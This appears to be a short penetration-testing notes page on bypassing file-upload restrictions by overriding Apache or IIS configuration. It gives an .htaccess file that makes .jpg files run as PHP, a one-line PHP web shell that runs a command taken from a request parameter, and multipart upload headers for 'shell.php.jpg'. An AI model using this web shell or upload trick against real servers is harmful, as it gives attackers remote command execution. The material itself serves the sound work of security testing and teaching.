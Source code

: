 ```yaml
---
description: >-
  Servers typically won't execute files unless they have been configured to do
  so. Furthermore, user-supplied files will be placed in a non-executable
  directory.
---
```


# Overriding Server Configurations

For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so 
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files to override or add to the global configuration settings. Apache servers, for example, will add a _**.htaccess**_ file if one is present.

On _**IIS**_ servers, a web.config file allows developers to make directory specific configurations.

```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>
```



_<mark style="color:red;">**NOTE:**</mark>_ Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests. However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file.



### Override with .htaccess file

Upload an _.htaccess_ file with the following:

```
AddType application/x-httpd-php .php
AddType application/x-httpd-php .jpg
```

Upload your malicious file of your choosing.

```
<?php system($_REQUEST["cmd"]); ?>
```



Upload shell.php.jpg

```
Content-Disposition: form-data; filename="shell.php.jpg"
Content-Type: application/x-httpd-php 
```
